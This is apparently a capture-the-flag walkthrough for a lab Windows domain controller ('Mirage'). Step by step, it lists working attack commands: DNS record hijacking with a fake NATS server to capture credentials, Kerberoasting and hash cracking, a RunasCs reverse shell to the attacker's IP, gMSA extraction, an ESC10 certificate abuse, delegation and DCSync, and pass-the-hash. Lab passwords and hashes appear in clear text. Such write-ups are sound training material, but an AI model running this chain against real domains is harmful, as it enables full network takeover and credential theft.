Enumeration
Open ports:
sudo nmap -T4 -sCV -p- -Pn --min-rate 5000 --open 10.129.233.77
...
Nmap scan report for 10.129.233.77
Host is up (0.036s latency).
Not shown: 62843 closed tcp ports (reset), 2663 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2025-07-20 17:46:28Z)
111/tcp open rpcbind 2-4 (RPC #100000)
| rpcinfo:
| program version port/proto service
| 100000 2,3,4 111/tcp rpcbind
| 100000 2,3,4 111/tcp6 rpcbind
| 100000 2,3,4 111/udp rpcbind
| 100000 2,3,4 111/udp6 rpcbind
| 100003 2,3 2049/udp nfs
| 100003 2,3 2049/udp6 nfs
| 100003 2,3,4 2049/tcp nfs
| 100003 2,3,4 2049/tcp6 nfs
| 100005 1,2,3 2049/tcp mountd
| 100005 1,2,3 2049/tcp6 mountd
| 100005 1,2,3 2049/udp mountd
| 100005 1,2,3 2049/udp6 mountd
| 100021 1,2,3,4 2049/tcp nlockmgr
| 100021 1,2,3,4 2049/tcp6 nlockmgr
| 100021 1,2,3,4 2049/udp nlockmgr
| 100021 1,2,3,4 2049/udp6 nlockmgr
| 100024 1 2049/tcp status
| 100024 1 2049/tcp6 status
| 100024 1 2049/udp status
|_ 100024 1 2049/udp6 status
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: mirage.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject:
| Subject Alternative Name: DNS:dc01.mirage.htb, DNS:mirage.htb, DNS:MIRAGE
| Not valid before: 2025-07-04T19:58:41
|_Not valid after: 2105-07-04T19:58:41
|_ssl-date: TLS randomness does not represent time
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: mirage.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject:
| Subject Alternative Name: DNS:dc01.mirage.htb, DNS:mirage.htb, DNS:MIRAGE
| Not valid before: 2025-07-04T19:58:41
|_Not valid after: 2105-07-04T19:58:41
2049/tcp open nlockmgr 1-4 (RPC #100021)
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: mirage.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject:
| Subject Alternative Name: DNS:dc01.mirage.htb, DNS:mirage.htb, DNS:MIRAGE
| Not valid before: 2025-07-04T19:58:41
|_Not valid after: 2105-07-04T19:58:41
3269/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: mirage.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject:
| Subject Alternative Name: DNS:dc01.mirage.htb, DNS:mirage.htb, DNS:MIRAGE
| Not valid before: 2025-07-04T19:58:41
|_Not valid after: 2105-07-04T19:58:41
4222/tcp open vrml-multi-use?
| fingerprint-strings:
| GenericLines:
| INFO {"server_id":"NBQQDGHLEMPUML25GDUJYWI4TKQAKJJ6G6XWZWPMVMI7TJFMID3LCZPL","server_name":"NBQQDGHLEMPUML25GDUJYWI4TKQAKJJ6G6XWZWPMVMI7TJFMID3LCZPL","version":"2.11.3","proto":1,"git_commit":"a82cfda","go":"go1.24.2","host":"0.0.0.0","port":4222,"headers":true,"auth_required":true,"max_payload":1048576,"jetstream":true,"client_id":220,"client_ip":"10.10.14.95","xkey":"XD23DZHQVOG6DP7U7ZMHPUFTGWPRRCIYM6KWMJDDFVHGICVPJSXUSKIL"}
| -ERR 'Authorization Violation'
| GetRequest:
| INFO {"server_id":"NBQQDGHLEMPUML25GDUJYWI4TKQAKJJ6G6XWZWPMVMI7TJFMID3LCZPL","server_name":"NBQQDGHLEMPUML25GDUJYWI4TKQAKJJ6G6XWZWPMVMI7TJFMID3LCZPL","version":"2.11.3","proto":1,"git_commit":"a82cfda","go":"go1.24.2","host":"0.0.0.0","port":4222,"headers":true,"auth_required":true,"max_payload":1048576,"jetstream":true,"client_id":221,"client_ip":"10.10.14.95","xkey":"XD23DZHQVOG6DP7U7ZMHPUFTGWPRRCIYM6KWMJDDFVHGICVPJSXUSKIL"}
| -ERR 'Authorization Violation'
| HTTPOptions:
| INFO {"server_id":"NBQQDGHLEMPUML25GDUJYWI4TKQAKJJ6G6XWZWPMVMI7TJFMID3LCZPL","server_name":"NBQQDGHLEMPUML25GDUJYWI4TKQAKJJ6G6XWZWPMVMI7TJFMID3LCZPL","version":"2.11.3","proto":1,"git_commit":"a82cfda","go":"go1.24.2","host":"0.0.0.0","port":4222,"headers":true,"auth_required":true,"max_payload":1048576,"jetstream":true,"client_id":222,"client_ip":"10.10.14.95","xkey":"XD23DZHQVOG6DP7U7ZMHPUFTGWPRRCIYM6KWMJDDFVHGICVPJSXUSKIL"}
| -ERR 'Authorization Violation'
| NULL:
| INFO {"server_id":"NBQQDGHLEMPUML25GDUJYWI4TKQAKJJ6G6XWZWPMVMI7TJFMID3LCZPL","server_name":"NBQQDGHLEMPUML25GDUJYWI4TKQAKJJ6G6XWZWPMVMI7TJFMID3LCZPL","version":"2.11.3","proto":1,"git_commit":"a82cfda","go":"go1.24.2","host":"0.0.0.0","port":4222,"headers":true,"auth_required":true,"max_payload":1048576,"jetstream":true,"client_id":219,"client_ip":"10.10.14.95","xkey":"XD23DZHQVOG6DP7U7ZMHPUFTGWPRRCIYM6KWMJDDFVHGICVPJSXUSKIL"}
|_ -ERR 'Authentication Timeout'
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open mc-nmf .NET Message Framing
47001/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open msrpc Microsoft Windows RPC
49665/tcp open msrpc Microsoft Windows RPC
49666/tcp open msrpc Microsoft Windows RPC
49667/tcp open msrpc Microsoft Windows RPC
50252/tcp open msrpc Microsoft Windows RPC
50259/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
50260/tcp open msrpc Microsoft Windows RPC
50275/tcp open msrpc Microsoft Windows RPC
53725/tcp open msrpc Microsoft Windows RPC
53751/tcp open msrpc Microsoft Windows RPC
53754/tcp open msrpc Microsoft Windows RPC
57614/tcp open msrpc Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-time:
| date: 2025-07-20T17:47:22
|_ start_date: N/A
|_clock-skew: 7h00m00s
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled and requiredNull session doesn’t work:
nxc smb 10.129.233.77 -u a -p '' --shares
There is a web page on this port: http://10.129.233.77:4222/

It is used for NATS: https://docs.nats.io/running-a-nats-service/configuration/clustering

NFS share is readable for everyone:
showmount -e 10.129.233.77
We can mount it and check what is inside:
sudo mkdir -p /mnt/MirageReportssudo mount -t nfs 10.129.233.77:/MirageReports /mnt/MirageReports
PDF document contains some hints, NTLM authentication is used:

Username is here:
Another one, Dev_Account_A:

This probably means we have to perform DNS hijack for nats-svc.mirage.htb:
Checking metadata:

User enumeration:
./kerbrute_linux_amd64 userenum --dc 10.129.233.77 -d mirage.htb users.txt
Foothold
Vibe coded python script for fake NATS server:
import socket
HOST = '0.0.0.0'
PORT = 4222 # NATS default port
INFO_MSG = 'INFO {"server_id":"fake","version":"2.10.0","go":"go1.20.0"}\r\n'
def run_fake_nats():
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
s.bind((HOST, PORT))
s.listen(5)
print(f"[+] Fake NATS server listening on {HOST}:{PORT}")
while True:
conn, addr = s.accept()
print(f"[+] Connection from {addr}")
with conn:
conn.sendall(INFO_MSG.encode())
while True:
data = conn.recv(1024)
if not data:
break
print(f"[>] {addr}: {data.decode(errors='ignore')}")
if b'PING' in data:
conn.sendall(b'PONG\r\n')
if __name__ == "__main__":
run_fake_nats()I’ve also tried bettercap, it didn’t work:
sudo bettercap -iface tun0
...
set dns.spoof.domains nats-svc.mirage.htb
set dns.spoof.address 10.10.14.95
dns.spoof on
But nfsupdate works. First we need to create dynamic DNS record:
server dc01.mirage.htb
zone mirage.htb
update add nats-svc.mirage.htb 300 A 10.10.14.95
send
Run update:
nsupdate dns_update.txt Checking if the record exists:
dig @dc01.mirage.htb nats-svc-mirage.htbAfter starting NATS server we get a password:

But credentials don’t work:
nxc smb 10.129.233.77 -u Dev_Account_A -p 'hx5h7F5554fP@1337!' -k
...
KDC_ERR_PREAUTH_FAILED
Trying to obtain Kerberos ticket:
impacket-getTGT -dc-ip dc01.mirage.htb mirage.htb/Dev_Account_A:'hx5h7F5554fP@1337!'
Installed NATS-CLI instead:
go install github.com/nats-io/natscli/nats@latestWe can see some messages after starting it:
nats --server nats://dc01.mirage.htb:4222 --user Dev_Account_A --password 'hx5h7F5554fP@1337!' sub ">"
Checking authentication logs:
nats --server nats://dc01.mirage.htb:4222 --user Dev_Account_A --password 'hx5h7F5554fP@1337!' stream get auth_logs 5And we find another password:

Privilege Escalation (user)
Running Bloodhound ingestor:
bloodhound-ce-python -d mirage.htb -u david.jjackson -p 'pN8kQmn6b86!1234@' -ns 10.129.233.77 -c All --zipTicket request:
impacket-getTGT -dc-ip dc01.mirage.htb mirage.htb/david.jjackson:'pN8kQmn6b86!1234@'
export KRB5CCNAME=david.jjackson.ccache Setting up Kerberos configuration:
nxc smb 10.129.233.77 -u david.jjackson -p 'pN8kQmn6b86!1234@' -k --generate-krb5-file /tmp/krb5conf
sudo cp /tmp/krb5conf /etc/krb5.confBut WinRM doesn’t work:
evil-winrm -i dc01.mirage.htb -r mirage.htb
...
An error of type GSSAPI::GssApiError happened, message is gss_init_sec_context did not return GSS_S_COMPLETE: Invalid token was supplied
Success
Trying Kerberoast:
impacket-GetUserSPNs -request -dc-ip 10.129.233.77 mirage.htb/david.jjackson:'pN8kQmn6b86!1234@' -k -dc-host dc01.mirage.htb -outputfile hashes.kerberoast
Cracking the password:
hashcat -m 13100 hashes.kerberoast /home/kali/Documents/Tools/Dictionaries/rockyou.txt
...
3edc#EDC3
User nathan.aadam:

Requesting ticket:
impacket-getTGT -dc-ip dc01.mirage.htb mirage.htb/nathan.aadam:'3edc#EDC3'
export KRB5CCNAME=nathan.aadam.ccacheGetting user flag:

Privilege Escalation (Administrator)
Users:

WinPEAS has found AutoLogon password:

We can check it manually with this command:
Get-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon'
Requesting a ticket for this user:
impacket-getTGT -dc-ip dc01.mirage.htb mirage.htb/mark.bbond:'1day@atime'
Now we are a member of IT_SUPPORT group, with ForceChangePassword privileges on javier.mmarshall user:

Checking privileges:
bloodyAD --host dc01.mirage.htb -d mirage.htb -u mark.bbond -p '1day@atime' -k get writable --detailUser javier.mmarshall is writable:

Checking UAC:
bloodyAD --host dc01.mirage.htb -d mirage.htb -u mark.bbond -p '1day@atime' -k get object 'javier.mmarshall' --attr userAccountControl
Enabling account:
bloodyAD --host dc01.mirage.htb -d mirage.htb -u mark.bbond -p '1day@atime' -k remove uac 'javier.mmarshall' -f ACCOUNTDISABLE
And changing his password:
bloodyAD --host dc01.mirage.htb -d mirage.htb -u mark.bbond -p '1day@atime' -k set password 'javier.mmarshall' 'Password123!'
User javier.mmarshall has ReadGMSAPassword privileges on MIRAGE-SERVICES$:

But we get an error:
bloodyAD --host dc01.mirage.htb -d mirage.htb -u javier.mmarshall -p 'Password123!' -k get object 'MIRAGE-SERVICE$' --attr msDS-ManagedPassword
...
Preauth failed! Error Name: KDC_ERR_CLIENT_REVOKED Detail: "Client’s credentials have been revoked"
We can see a different error if we try to get a shell with RunCs. This user has time restriction set:
\RunasCs.exe javier.mmarshall 'Password123!' -r 10.10.14.95:4444 cmd --bypass-uac and --logon-type 3
We can try with different user:
.\RunasCs.exe mark.bbond '1day@atime' -r 10.10.14.95:4444 cmd
Reverse shell:

Checking logon hours:
Get-ADUser -Identity javier.mmarshall -Properties LogonHours
We can change it with these two commands:
$logonHours = [byte[]](1..21 | ForEach-Object { 0xFF })Set-ADUser -Identity javier.mmarshall -Replace @{logonHours = $logonHours}Alternatively with this command:
Set-ADUser -Identity javier.mmarshall -Clear "logonHours"And now if we request gMSA password we get NTLM password hash:
bloodyAD --host dc01.mirage.htb -d mirage.htb -u javier.mmarshall -p 'Password123!' -k get object 'MIRAGE-SERVICE$' --attr msDS-ManagedPassword
Requesting ticket:
impacket-getTGT -dc-ip dc01.mirage.htb mirage.htb/MIRAGE-SERVICE$ -hashes :305806d84f7c1be93a07aaf40f0c7866
export KRB5CCNAME=MIRAGE-SERVICE\$.ccache
Checking privileges:
bloodyAD --host dc01.mirage.htb -d mirage.htb -k get writable --detailWe have write privileges on mark.bbond user:

With UPN write privileges, it is possible to execute ESC10 attack: https://www.thehacker.recipes/ad/movement/adcs/certificate-templates#case-2
ESC10 is invisible in Certipy, but we can use this certificate since we have enrollment rights:
certipy-ad find -u m.bbond -p '1day@atime' -k -dc-ip 10.129.19.200 -target dc01.mirage.htb -stdout
Windows version also doesn’t recognize ESC10:
.\Certipy.exe find -dc-host dc01.mirage.htb -dc-ip 10.129.71.158 -target dc01.mirage.htb -ns 10.129.71.158 -u nathan.aadam@mirage.htb -p '3edc#EDC3' -kIt can only be detected manually, CertificateMappingMethods has to be set to 4:
(Get-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\SecurityProviders\Schannel" -Name "CertificateMappingMethods").CertificateMappingMethods
We can set UPN to domain controller:
bloodyAD --host dc01.mirage.htb -d mirage.htb -k 'ccache=MIRAGE-SERVICE$.ccache' set object 'mark.bbond' userPrincipalName -v 'DC01$@mirage.htb'
Requesting ticket:
impacket-getTGT -dc-ip dc01.mirage.htb mirage.htb/mark.bbond:'1day@atime'
export KRB5CCNAME=mark.bbond.ccacheRequesting a certificate with impersonated user:
certipy-ad req -u mark.bbond@mirage.htb -no-pass -k -ca mirage-DC01-CA -template User -upn 'DC01$@mirage.htb' -dc-ip 10.129.19.200 -dc-host dc01.mirage.htb -target dc01.mirage.htb
Reverting UPN:
bloodyAD --host dc01.mirage.htb -d mirage.htb -k 'ccache=MIRAGE-SERVICE$.ccache' set object 'mark.bbond' userPrincipalName -v 'mark.bbond@mirage.htb'
And authenticating as DC over LDAP shell:
certipy-ad auth -pfx dc01.pfx -dc-ip 10.129.19.200 -ldap-shell
Now it’s possible to execute constrained delegation attack. https://www.thehacker.recipes/ad/movement/kerberos/delegations/constrained https://www.thehacker.recipes/ad/movement/kerberos/delegations/s4u2self-abuse
Setting delegation rights:
set_rbcd DC01$ MIRAGE-SERVICE$Requesting service ticket:
impacket-getST -spn 'cifs/dc01.mirage.htb' -impersonate 'DC01$' -dc-ip 10.129.19.200 'mirage.htb/MIRAGE-SERVICE$' -k -no-passExporting it:
export KRB5CCNAME=DC01\$@cifs_dc01.mirage.htb@MIRAGE.HTB.ccache And executing DCSync attack:
impacket-secretsdump 'DC01$'@dc01.mirage.htb -k -no-pass -dc-ip 10.129.19.200Requesting a ticket for Administrator:
impacket-getTGT -dc-ip dc01.mirage.htb mirage.htb/Administrator -hashes :7be6d4f3c2b9c0e3560f5a29eeb1afb3export KRB5CCNAME=Administrator.ccacheAnd we get a root flag:
evil-winrm -i dc01.mirage.htb -r mirage.htb